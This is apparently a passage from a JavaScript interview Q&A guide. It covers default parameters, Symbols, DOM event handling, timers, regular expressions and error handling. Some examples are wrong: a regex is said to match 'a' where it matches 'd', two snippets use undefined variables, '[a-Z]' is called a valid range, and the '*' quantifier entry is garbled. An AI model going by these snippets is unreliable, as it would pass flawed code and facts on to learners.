// Convert to / from plain object
const mapFromObj = new Map(Object.entries({ a: 1, b: 2 }));
const objFromMap = Object.fromEntries(mapFromObj);
```

**Real-World Use Case:**

**`WeakMap`** (a variant of `Map` with weak references and object-only keys) is used by React\'s Concurrent Mode internals to associate component fiber metadata with DOM nodes without preventing garbage collection of unmounted components. **`Set`** is used in many state management libraries (Zustand, Jotai) to track subscriber callbacks: O(1) `add`/`delete`/`has` operations make subscription management significantly faster than array-based alternatives at scale (thousands of subscribers in large dashboards).

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are default parameters in ES6, and how do they interact with `undefined` vs. `null`?

ES6 default parameters allow function parameters to have a fallback value used when the argument is `undefined` or when no argument is provided. Crucially, passing **`null` does not trigger the default** — `null` is an explicit value meaning "no object here", while `undefined` means "value not provided".

Default expressions are evaluated **lazily** — they run each time the function is called with a missing argument, not once at function definition time. This allows defaults that reference other parameters or call functions.

```js
// Basic defaults
function createUser(name, role = 'viewer', createdAt = new Date()) {
  return { name, role, createdAt };
}

createUser('Alice');                     // role: 'viewer', createdAt: <now>
createUser('Bob', 'admin');             // role: 'admin'
createUser('Carol', undefined, new Date('2024-01-01')); // role: 'viewer' (undefined triggers default)
createUser('Dave', null);              // role: null — null does NOT trigger default ⚠️

// Default referencing earlier parameter
function range(start, end = start + 10) {
  return Array.from({ length: end - start }, (_, i) => start + i);
}
console.log(range(5));    // [5, 6, 7, 8, 9, 10, 11, 12, 13, 14]
console.log(range(1, 4)); // [1, 2, 3]

// Default calling a function (evaluated per call)
let callCount = 0;
function getDefault() { return ++callCount; }

function track(id = getDefault()) { return id; }
console.log(track());  // 1
console.log(track());  // 2  — getDefault() called again
console.log(track(99)); // 99 — getDefault() NOT called

// Combining with destructuring
function connect({ host = 'localhost', port = 5432, ssl = false } = {}) {
  return `${ssl ? 'https' : 'http'}://${host}:${port}`;
}
connect();                          // 'http://localhost:5432'
connect({ host: 'db.prod.io', ssl: true }); // 'https://db.prod.io:5432'
```

**Real-World Use Case:**

Express.js middleware factories and database client factory functions (e.g., `createPool({ max = 10, idleTimeout = 30_000, ssl = false } = {})`) use default parameters combined with destructuring to define safe, self-documenting APIs. When a downstream service calls the factory without all options, sensible defaults keep the service running. The `= {}` on the destructured parameter is critical — without it, calling `connect()` (no argument at all) throws `TypeError: Cannot destructure property 'host' of undefined`.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are `Symbol` and `Symbol.iterator`, and how do you make a custom object iterable?

`Symbol` is a primitive type introduced in ES6 that produces a **guaranteed-unique** value each time it is called, even with the same description string. Symbols are primarily used as:
1. **Unique property keys** — prevent accidental property name collisions, especially in library/framework code that augments user objects.
2. **Well-known Symbols** — `Symbol.iterator`, `Symbol.toPrimitive`, `Symbol.hasInstance`, etc. — hooks into JavaScript\'s built-in protocols.

`Symbol.iterator` is the well-known Symbol that makes any object **iterable** — compatible with `for...of`, spread (`...`), destructuring, `Array.from()`, and other iteration consumers.

```js
// ── Unique keys ──────────────────────────────────────────────────────────────

const ID = Symbol('id');        // description is only for debugging
const user = { name: 'Alice', [ID]: 42 };

console.log(user[ID]);          // 42
console.log(user['id']);        // undefined — Symbol key ≠ string key
console.log(Object.keys(user)); // ['name'] — Symbol keys hidden from Object.keys
console.log(Object.getOwnPropertySymbols(user)); // [Symbol(id)]

// ── Custom iterable with Symbol.iterator ─────────────────────────────────────

class Range {
  constructor(start, end, step = 1) {
    this.start = start;
    this.end   = end;
    this.step  = step;
  }

  [Symbol.iterator]() {
    let current = this.start;
    const { end, step } = this;

    return {
      next() {
        if (current <= end) {
          const value = current;
          current += step;
          return { value, done: false };
        }
        return { value: undefined, done: true };
      },
      [Symbol.iterator]() { return this; }, // make the iterator itself iterable
    };
  }
}

const evens = new Range(2, 10, 2);

for (const n of evens)     console.log(n);    // 2 4 6 8 10
console.log([...evens]);                       // [2, 4, 6, 8, 10]
const [first, second] = evens;                 // destructuring ✅
console.log(first, second);                    // 2, 4

// ── Symbol.toPrimitive — custom type coercion ────────────────────────────────

const money = {
  amount: 100,
  currency: 'USD',
  [Symbol.toPrimitive](hint) {
    if (hint === 'number') return this.amount;
    if (hint === 'string') return `${this.amount} ${this.currency}`;
    return this.amount; // default hint
  },
};

console.log(`${money}`);      // '100 USD'
console.log(+money);          // 100
console.log(money + 50);      // 150
```

**Real-World Use Case:**

Node.js `stream.Readable` implements `Symbol.asyncIterator`, making streams consumable with `for await...of`. This is how modern file processing pipelines are built: `for await (const chunk of fs.createReadStream('data.csv'))` — no event listeners, no manual `pipe` management. Similarly, MongoDB\'s cursor implements `Symbol.asyncIterator`, enabling `for await (const doc of collection.find(query))` — clean, memory-efficient document streaming without loading the entire result set into memory.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 13. DOM & Events

<br>

## Q. What is event handling in javascript?

The change in the state of an object is known as an **Event**. In html, there are various events which represents that some activity is performed by the user or by the browser.

When javascript code is included in HTML, js react over these events and allow the execution. This process of reacting over the events is called **Event Handling**. Thus, js handles the HTML events via **Event Handlers**.

Some of the HTML event handlers are:

**Mouse events:**

|Event Handler   |Description
|----------------|------------------------------|
|onclick         |When mouse click on an element|
|onmouseover     |When the cursor of the mouse comes over the element|
|onmouseout      |When the cursor of the mouse leaves an element|
|onmousedown     |When the mouse button is pressed over the element|
|onmouseup       |When the mouse button is released over the element|
|onmousemove     |When the mouse movement takes place.|

**Form events:**

|Event Handler |Description           |
|--------------|----------------------|
|onfocus       |When the user focuses on an element|
|onsubmit      |When the user submits the form|
|onblur        |When the focus is away from a form element|
|onchange      |When the user modifies or changes the value of a form element|

**Window/Document events:**

|Event Handler  |Description            |
|---------------|-----------------------|
|onload         |When the browser finishes the loading of the page|
|onunload       |When the visitor leaves the current webpage, the browser unloads it|
|onresize       |When the visitor resizes the window of the browser|

**Example:** Click Event

```html
<!DOCTYPE html>
<html>
  <head>
    <script>
      function greeting() {
        alert("Hello! Good morning");
      }
    </script>
  </head>
  <body>
    <h2>Click Event Example</h2>
    <button type="button" onclick="greeting()">Click me</button>
  </body>
</html>
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-click-event-rcvg65?file=/index.html)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How to create and trigger events in javascript?

Events can be handled either through `addEventListener()` method or we can trigger events on individual components by defining specific JavaScript functions.

**Syntax:**

```js
document.addEventListener(event, function, phase)
```

**Example:**

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Click Event</title>
    <meta charset="UTF-8" />
  </head>
  <body>
    <h3>Click on the page to trigger click event</h3>
    <script type="text/javascript">
      document.addEventListener("click", function () {
        console.log("You clicked inside the document");
      });
    </script>
  </body>
</html>
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-addeventlistener-kxesqw?file=/index.html)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is an event delegation?

Event Delegation is basically a pattern to handle events efficiently. Instead of adding an event listener to each and every similar element, we can add an event listener to a parent element and call an event on a particular target using the `event.target` property of the event object.

**Example:**

```html
<div id="buttons"> 
  <button class="buttonClass">Click me</button>
  <button class="buttonClass">Click me</button>
  <button class="buttonClass">Click me</button>
</div>

<script>
  document.getElementById('buttons')
    .addEventListener('click', event => { 
      if (event.target.className === 'buttonClass') { 
        console.log('Click!');
      }
    });
</script>
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-event-delegation-7x5idt?file=/index.html)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is an event flow?

Event flow is the order in which event is received on the web page. When you click an element that is nested in various other elements, before your click actually reaches its destination, or target element, it must trigger the click event each of its parent elements first, starting at the top with the global window object.

There are two ways of event flow

* Top to Bottom (Event Capturing)
* Bottom to Top (Event Bubbling)

<p align="center">
  
</p>

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is event bubbling?

Event bubbling is a type of event propagation where the event first triggers on the innermost target element, and then successively triggers on the ancestors (parents) of the target element in the same nesting hierarchy till it reaches the outermost DOM element.

**Example**: If you click on EM, the handler on DIV runs.  

```html
<div onclick="alert('The handler!')">
  <em>If you click on <code>EM</code>, the handler on <code>DIV</code> runs.</em>
</div>
```

**Stopping bubbling:**  

```html
<body onclick="alert(`the bubbling doesn\'t reach here`)">
  <button onclick="event.stopPropagation()">Click me</button>
</body>
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-event-bubbling-y1sjrk?file=/index.html)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is event capturing?

Event capturing is a type of event propagation where the event is first captured by the outermost element and then successively triggers on the descendants (children) of the target element in the same nesting hierarchy till it reaches the inner DOM element.

**Example:**

```html
<article id="ancestor">
    Article Element
    <div id="parent">
      DIV Element
      <p id="child">
        P Element
      </p>
    </div>
</article>

<script>
  // Script to click event handler to capture on each element
  for (let elem of document.querySelectorAll("*")) {
    elem.addEventListener(
      "click",
      (e) => console.log("Capturing:", elem.tagName),
      true
    );
  }
</script>
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-event-capturing-mz6d16?file=/index.html)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you submit a form using JavaScript?

Generally, a form is submitted when the user presses a submit button. JavaScript provides the form object that contains the `submit()` method. Use the "id" of the form to get the form object.

**Example:**

```html
<form id="myForm" action="/action_page.php">
  Search: <input type='text' name='query' />
  <input type="button" onclick="handleSubmit()" value="Submit form">
</form>

<script>
function handleSubmit() {
  document.getElementById("myForm").submit();
}
</script>
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the purpose of void(0)?

The `void(0)` is used to prevent the page from refreshing. This will be helpful to eliminate the unwanted side-effect, because it will return the `undefined` primitive value.

It is commonly used for HTML document that uses `href="JavaScript:void(0);"` within an `<a>` element. i.e, when you click a link, the browser loads a new page or refreshes the same page. But this behavior will be prevented using this expression.  

**Example:** the below link notify the message without reloading the page

```html
<a href="JavaScript:void(0);" onclick="alert('Prevent the page from refreshing!')">Click Me!</a>
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-void-onx4n5?file=/index.html)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the use of preventDefault method?

The `preventDefault()` method is used to prevent the browser from executing the default action of the selected element. It can prevent the user from processing the request by clicking the link.

For example, prevent form submission when clicking on submit button and prevent opening the page URL when clicking on hyper link are some common usecases.

```js
document.getElementById("link").addEventListener("click", function(event) {
   event.preventDefault();
});
```

*Note: Remember that not all events are cancelable*.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the use of stopPropagation method?

The `stopPropagation` method is used to stop the event from bubbling up the event chain.

For example, the below nested divs with stopPropagation method prevents default event propagation when clicking on nested div(Div1)

```html
<p>Click DIV1 Element</p>
<div onclick="secondFunc()">DIV 2
  <div onclick="firstFunc(event)">DIV 1</div>
</div>

<script>
function firstFunc(event) {
  alert("DIV 1");
  event.stopPropagation();
}

function secondFunc() {
  alert("DIV 2");
}
</script>
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is difference between stoppropagation, stopimmediatepropagation and preventdefault in javascript?

**1. event.preventDefault()**:

This method is used to stop the browser\'s default behavior when performing an action.

**Example:**

```html
<p>Please click on the checkbox control.</p>

<form>
  <label for="id-checkbox">Checkbox:</label>
  <input type="checkbox" id="id-checkbox" />
</form>

<div id="output-box"></div>

<script>
  document.querySelector("#id-checkbox").addEventListener("click", function(event) {
  document.getElementById("output-box").innerHTML += "Sorry! <code>preventDefault()</code> won\'t let you check this!<br>";
  event.preventDefault();
}, false);
</script>
```

**2. event.stopPropagation()**:

This method is used to prevent the propagation of an event as defined in the capturing/bubbling phase of the flow of an event in the browser.

**Example:**

```html
<div class="parent" (onClick)="console.log('parent')">
    <button class="child" (onClick)="buttonClick(event)"></button>
</div>
<script>
    function buttonClick(event) {
        event.stopPropagation();
        console.log('child');
    }
</script>
```

**3. event.stopImmediatePropagation()**:

With `stopImmediatePropagation()`, along with the event propagation, other event handlers will also be prevented from execution.

As a result, clicking on the div element will:

* Prevent event bubbling to the parent elements
* Prevent the execution of any other event listener attached to the element

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the use of setTimeout?

The `setTimeout()` method is used to call a function or evaluates an expression after a specified number of milliseconds.

**Syntax:**

```js
setTimeout(callback function, delay in milliseconds)
```

**Example:**

```js
setTimeout(() => {
  console.log("Delayed for 1 second.");
}, "1000")
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the use of setInterval?

The `setInterval()` method is used to call a function or evaluates an expression at specified intervals (in milliseconds). The `setInterval()` method continues calling the function until `clearInterval()` is called, or the window is closed.

**Example:**

```html
<p id="timer"></p>

<script>
setInterval(myTimer, 1000);

function myTimer() {
  const date = new Date();
  document.getElementById("timer").innerHTML = date.toLocaleTimeString();
}
</script>
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-setinterval-6tx5pq?file=/index.html)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the purpose of clearTimeout method?

The `clearTimeout()` function is used in javascript to clear the timeout which has been set by `setTimeout()` function before that. i.e, The return value of setTimeout() function is stored in a variable and it\'s passed into the `clearTimeout()` function to clear the timer.

For example, the below setTimeout method is used to display the message after 3 seconds. This timeout can be cleared by clearTimeout() method.

```js
// clearTimeout()

var msg;
function greeting() {
  console.log("Hello World!");
  stop();
}
function start() {
  console.log("start");
  msg = setTimeout(greeting, 3000);
}
function stop() {
  console.log("stop");
  clearTimeout(msg);
}

start();

// Output
Start
Hello World!
Stop
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-cleartimeout-w6ve8y?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the purpose of clearInterval method?

The `clearInterval()` function is used in javascript to clear the interval which has been set by `setInterval()` function. i.e, The return value returned by setInterval() function is stored in a variable and it\'s passed into the clearInterval() function to clear the interval.

For example, the below setInterval method is used to display the message for every 3 seconds. This interval can be cleared by clearInterval() method.

```js
// clearInterval()

var msg;
function greeting() {
  console.log("Hello World!");
  stop();
}
function start() {
  console.log("start");
  msg = setInterval(greeting, 3000);
}
function stop() {
  console.log("stop");
  clearInterval(msg);
}

start();

// Output
Start
Hello World!
Stop
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-clearinterval-brugdh?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the difference between document load and DOMContentLoaded events?

The `DOMContentLoaded` event is fired when the initial HTML document has been completely loaded and parsed, without waiting for assets(stylesheets, images, and subframes) to finish loading. Whereas The load event is fired when the whole page has loaded, including all dependent resources(stylesheets, images).

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is `requestAnimationFrame()` in JavaScript?

`requestAnimationFrame()` is a browser API that tells the browser to call a specified function before the next repaint. It is the recommended way to create smooth animations and visual updates because it synchronizes with the browser\'s refresh rate (typically 60 fps), avoids unnecessary renders when the tab is hidden, and does not block the main thread.

**Syntax:**

```js
const id = requestAnimationFrame(callback);
cancelAnimationFrame(id); // cancel if needed
```

**Example — Smooth animation loop:**

```js
let start = null;
const box = document.getElementById('box');

function animate(timestamp) {
  if (!start) start = timestamp;

  const elapsed = timestamp - start;
  const position = Math.min(elapsed / 10, 500); // move up to 500px over time

  box.style.transform = `translateX(${position}px)`;

  if (position < 500) {
    requestAnimationFrame(animate); // schedule next frame
  }
}

requestAnimationFrame(animate);
```

**Comparison — `requestAnimationFrame` vs `setTimeout`:**

| | `requestAnimationFrame` | `setTimeout` |
|--|------------------------|-------------|
| Tied to display refresh rate | ✅ Yes (usually 60 fps) | ❌ No |
| Paused in background tabs | ✅ Yes (saves battery) | ❌ No |
| Ideal for animations | ✅ | ⚠️ Can cause jank |
| Precision | High | Lower (can drift) |

**Use cases:**

* Smooth CSS/canvas animations
* Game loops
* Scroll-driven effects
* Any DOM update that should stay in sync with the browser\'s paint cycle

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 14. Regular Expression

<br>

## Q. What is a RegExp object?

A regular expression is an object that describes a pattern of characters.

The JavaScript `RegExp` class represents regular expressions, and both String and `RegExp` define methods that use regular expressions to perform powerful pattern-matching and search-and-replace functions on text.

**Syntax:**

```js
// Using literal notation 
let pattern = /pattern/attributes;

// Using RegExp Object
let pattern = new RegExp(pattern, attributes);


// * pattern − A string that specifies the pattern of the regular expression or another regular expression.
// * attributes − An optional string containing any of the "g", "i", and "m" attributes that specify global, case-insensitive, and multi-line matches, respectively.
```

**Example:**

```js
let pattern = /ab+c/i; // literal notation

let pattern = new RegExp(/ab+c/, 'i') // constructor with regular expression literal as first argument
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are the string method available in regular expression?

Regular expressions are patterns used to match character combinations in strings. In JavaScript, regular expressions are also objects. These patterns are used with the `exec()` and `test()` methods of `RegExp`, and with the `match()`, `matchAll()`, `replace()`, `replaceAll()`, `search()`, and `split()` methods of String.

**Example 01:** `test()`

Tests for a match in a string. It returns `true` or `false`

```js
let exp = /Hello/;
let res1 = exp.test("Hello World");
let res2 = exp.test("Hi");

console.log(res1); // true
console.log(res2); // false
```

**Example 02:** `exec()`

Executes a search for a match in a string. It returns an array of information or `null` on a mismatch.

```js
let res1 = exp.exec("Hello World");
let res2 = exp.exec("Hi");

console.log(res1); // ['Hello', index: 0, input: 'Hello World', groups: undefined]
console.log(res2); // null
```

|Method	      |Description             |
|-------------|------------------------|
|exec()	      |Executes a search for a match in a string. It returns an array of information or `null` on a mismatch.|
|test()	      |Tests for a match in a string. It returns `true` or `false`.|
|match()	    |Returns an array containing all of the matches, including capturing groups, or `null` if no match is found.|
|matchAll()	  |Returns an iterator containing all of the matches, including capturing groups.|
|search()	    |Tests for a match in a string. It returns the index of the match, or `-1` if the search fails.|
|replace()	  |Executes a search for a match in a string, and replaces the matched substring with a replacement substring.|
|replaceAll()	|Executes a search for all matches in a string, and replaces the matched substrings with a replacement substring.|
|split()	    |Uses a regular expression or a fixed string to break a string into an array of substrings.|

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-regular-expression-fn79dp?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are modifiers in regular expression?

Modifiers can be used to perform case-insensitive and global searches.

| Modifier | Description |
|---- | -----------------|
| i  | Perform case-insensitive matching |
| g | Perform a global match rather than stops at first match  |
| m | Perform multiline matching|

**Example 01:** Global Search

```js
let text = "Hello World! Hello World!";
let pattern = /Hello/g;

console.log(text.match(pattern)); // ['Hello', 'Hello']
```

**Example 02:** Case-insensitive match

```js
let string = "Hello World!";
let pattern = /WORLD/i;

console.log(string.match(pattern2)); // ['World', index: 6, input: 'Hello World!', groups: undefined]
```

**Example 03:** Multiline match

The "m" modifier specifies a multiline match. It only affects the behavior of start `^` and end `$`. `^` specifies a match at the start of a string. `$` specifies a match at the end of a string.

```js
let paragraph = `Lorem Ipsum is simply dummy text of the printing and typesetting industry.`;

let pattern = /Lorem/m;

console.log(paragraph.match(pattern3)); // ["Lorem"]
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-modifier-sm7ul2)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are regular expression patterns?

Regular Expressions provided group of patterns in order to match characters. Basically they are categorized into 3 types,  

**Brackets:**

These are used to find a range of characters.

* **[...]**: Any one character between the brackets.
* **[^...]**: Any one character not between the brackets.
* **[0-9]**: It matches any decimal digit from **0** through **9**.
* **[a-z]**: It matches any character from lowercase **a** through lowercase **z**.
* **[A-Z]**: It matches any character from uppercase **A** through uppercase **Z**.
* **[a-Z]**: It matches any character from lowercase **a** through uppercase **Z**.

**Metacharacters:**

These are characters with a special meaning

* **.**: a single character
* **\s**: a whitespace character (space, tab, newline)
* **\S**: non-whitespace character
* **\d**: a digit (0-9)
* **\D**: a non-digit
* **\w**: a word character (a-z, A-Z, 0-9, _)
* **\W**: a non-word character
* **[\b]**: a literal backspace (special case).
* **[aeiou]**: matches a single character in the given set
* **[^aeiou]**: matches a single character outside the given set
* **(foo|bar|baz)**: matches any of the alternatives specified

**Quantifiers:**

These are useful to define quantities

* **p+**: It matches any string containing one or more p\'s.
* **p: It matches any string containing zero or more p\'s.
* **p?**: It matches any string containing at most one p.
* **p{N}**: It matches any string containing a sequence of **N** p\'s
* **p{2,3}**: It matches any string containing a sequence of two or three p\'s.
* **p{2, }**: It matches any string containing a sequence of at least two p\'s.
* **p$**: It matches any string with p at the end of it.
* **^p**: It matches any string with p at the beginning of it.

**Example:**

```js
// Brackets
"Hello World".match(/[a-d]/); // -> matches 'a'
"Hello World".match(/[A-D]/); // -> no match
"Hello World".match(/[A-D]/i); // -> matches 'a'

// Metacharacters
"Hello World".match(/[A-Za-z]\s[A-Za-z]/); // -> matches
"Hello World".match(/[0-9]\s[A-Za-z]/); // -> no match

// Quantifiers
"Hello".match(/l+/); // -> matches
"Hello".match(/A*/); // -> no match
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-regular-expression-patterns-b5ojtl?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you search a string for a pattern?

**1. Using test()** It searches a string for a pattern, and returns `true` or `false`, depending on the result.

```js
let re1 = /Hi/;
let re2 = /you/;

re1.test("How are you?"); // false
re2.test("How are you?"); // true
```

**2. Using exec()** It searches a string for a specified pattern, and returns the found text as an object. If no match is found, it returns an empty (null) object.

```js
let re1 = /Hi/;
let re2 = /you/;

re1.exec("How are you?"); // null
re2.exec("How are you?"); // ["you"]
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-regular-expression-m10bgo?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the purpose of exec method?

The purpose of exec method is similar to test method but it returns a founded text as an object instead of returning true/false.

```js
// Using test() method
var pattern = /you/;
console.log(pattern.test("How are you?")); // true


// Using exec() method
var pattern = /you/;
console.log(pattern.exec("How are you?")); // ["you", index: 8, input: "How are you?", groups: undefined]
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you validate an email in javascript?

The `test()` method returns `true` if there is a match in the string with the regex pattern. The regular expression (regex) describes a sequence of characters used for defining a search pattern

```js
// Program to validate the email address

function validateEmail(email) {
  // regex pattern for email
  const re = /\S+@\S+\.\S+/g;

  // check if the email is valid
  let result = re.test(email);
  if (result) {
    console.log("Valid");
  } else {
    console.log("Not valid.");
  }
}

let email = "pradeep.kumar@gmail.com";
let email2 = "pradeep.kumar.com";

validateEmail(email); // Valid
validateEmail(email2); // Not Valid
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-regular-expression-rkxjb1?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you detect a mobile browser using regexp?

You can detect mobile browser by simply running through a list of devices and checking if the useragent matches anything. This is an alternative solution for RegExp usage,

```js
function detectMobile() {
  if (
    navigator.userAgent.match(/Android/i) ||
    navigator.userAgent.match(/webOS/i) ||
    navigator.userAgent.match(/iPhone/i) ||
    navigator.userAgent.match(/iPad/i) ||
    navigator.userAgent.match(/iPod/i) ||
    navigator.userAgent.match(/BlackBerry/i) ||
    navigator.userAgent.match(/Windows Phone/i)
  ) {
    return true;
  } else {
    return false;
  }
}
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 15. ERROR HANDLING

<br>

## Q. What is an error object?

An error object is a built in error object that provides error information when an error occurs. It has two properties: **name** and **message**. 

**Example:**

```js
try {
  greeting("Welcome");
}
catch(err) {
  console.log(err.name + ": " + err.message);
}

// Output
ReferenceError: greeting is not defined
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-error-object-uscjst?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. Define the various types of errors which occur in JavaScript?

There are three main types of errors that can occur while compiling a JavaScript program: **syntax errors**, **runtime errors** ( also called **exceptions** ), and **logical errors**. When an exception occurs, an object representing the error is created and thrown. The JavaScript language defines seven types of built-in error objects. 

**1. Error**: 

The "Error" type is used to represent generic exceptions.  This type of exception is most often used for implementing user defined exceptions. 

```js
const error = new Error("error message");
```

**2. RangeError**: 

"RangeError" exceptions are generated by numbers that fall outside of a specified range.

```js
const pi = 3.14159;

pi.toFixed(100000);  // RangeError: toFixed() digits argument must be between 0 and 100
```

**3. ReferenceError**:

A "ReferenceError" exception is thrown when a non-existent variable is accessed.  These exceptions commonly occur when an existing variable name is misspelled. 

```js
function sum() {
  val++;  // ReferenceError: val is not defined
}
```

**4. SyntaxError**: 

A "SyntaxError" is thrown when the rules of the JavaScript language are broken. 

```js
if (foo) {  // SyntaxError
  // the closing curly brace is missing
```

**5. TypeError**: 

A "TypeError" exception occurs when a value is not of the expected type.  Attempting to call a non-existent object method is a common cause of this type of exception. 

```js
const foo = {};

foo.bar(); // TypeError
```

**6. URIError**: 

A "URIError" exception is thrown by methods such as encodeURI() and decodeURI() when they encounter a malformed URI. The following example generates a "URIError" while attempting to decode the string "%".

```js
decodeURIComponent("%"); // URIError
```

**7. EvalError**: 

"EvalError" exceptions are thrown when the eval() function is used improperly. These exceptions are not used in the most recent version of the EcmaScript standard. However, they are still supported in order to maintain backwards compatibility with older versions of the standard.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are the various statements in error handling?

Below are the list of statements used in an error handling,
1. **try:** This statement is used to test a block of code for errors
2. **catch:** This statement is used to handle the error
3. **throw:** This statement is used to create custom errors.
4. **finally:** This statement is used to execute code after try and catch regardless of the result.

**Example:**

```js
function errorHandling() {

  const message = document.getElementById("app");
  message.innerHTML = "";
  let x = document.getElementById("app").value;
  
  try {
    if (x === "") throw "is empty";
    if (isNaN(x)) throw "is not a number";
    x = Number(x);
    if (x > 10) throw "is too high";
    if (x < 5) throw "is too low";
  } catch (err) {
    message.innerHTML = "Error: " + err + ".";
  } finally {
    document.getElementById("app").value = "";
  }
}

errorHandling(); // Error: is not a number.
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-error-handling-6uz740?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you create a custom error class in JavaScript?

You can create a custom error class by extending the built-in `Error` class. This lets you define domain-specific errors with custom names and additional properties.

**Example:**

```js
class ValidationError extends Error {
  constructor(message, field) {
    super(message);
    this.name = 'ValidationError';
    this.field = field;
  }
}

class NetworkError extends Error {
  constructor(message, statusCode) {
    super(message);
    this.name = 'NetworkError';
    this.statusCode = statusCode;
  }
}

// Usage
function validateAge(age) {
  if (typeof age !== 'number') {
    throw new ValidationError('Age must be a number', 'age');
  }
  if (age < 0 || age > 150) {
    throw new ValidationError('Age must be between 0 and 150', 'age');
  }
}

try {
  validateAge('twenty');
} catch (err) {
  if (err instanceof ValidationError) {
    console.log(`Validation failed on field "${err.field}": ${err.message}`);
    // Validation failed on field "age": Age must be a number
  } else {
    throw err; // rethrow unexpected errors
  }
}
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are general error handling strategies in JavaScript?

Robust JavaScript applications use several strategies to handle errors gracefully:

**1. try / catch / finally**

The most fundamental mechanism. `finally` always runs, making it useful for cleanup.

```js
function fetchData(url) {
  try {
    // risky operation
    const data = JSON.parse(url);
    return data;
  } catch (err) {
    console.error('Parsing error:', err.message);
    return null;
  } finally {
    console.log('fetchData completed');
  }
}
```

**2. Fail fast — validate inputs early**

Throw errors as soon as invalid state is detected rather than propagating bad data deep into the system.

```js
function divide(a, b) {
  if (b === 0) throw new RangeError('Cannot divide by zero');
  return a / b;
}
```

**3. Typed / custom errors for precise catching**

Use `instanceof` to handle different error types differently instead of a single generic catch.

```js
try {
  processRequest(data);
} catch (err) {
  if (err instanceof ValidationError) {
    respond(400, err.message);
  } else if (err instanceof NetworkError) {
    respond(503, 'Service unavailable');
  } else {
    respond(500, 'Internal error');
    throw err; // rethrow unknown errors
  }
}
```

**4. Global error handlers**

Catch unhandled errors and promise rejections at the top level.

```js
// Unhandled synchronous errors
window.onerror = function(message, source, line, col, error) {
  logToServer({ message, source, line, col, stack: error?.stack });
};

// Unhandled promise rejections
window.addEventListener('unhandledrejection', (event) => {
  logToServer({ reason: event.reason });
  event.preventDefault();
});
```

**5. Async error handling with async/await**

Always wrap `await` calls in `try/catch` or use a helper that converts rejections to `[error, result]` tuples.

```js
async function loadUser(id) {
  try {
    const res = await fetch(`/api/users/${id}`);
    if (!res.ok) throw new NetworkError(`HTTP ${res.status}`, res.status);
    return await res.json();
  } catch (err) {
    console.error('loadUser failed:', err);
    throw err;
  }
}
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 16. Web Storage

<br>

## Q. What is Web Storage, and how does `localStorage` differ from `sessionStorage`?

The **Web Storage API** provides two browser-side key-value stores that let web applications persist data client-side without round-tripping to a server. Both are part of the `window` object and share an identical synchronous API, but differ in **lifetime** and **scope**:

| Feature | `localStorage` | `sessionStorage` |
|---|---|---|
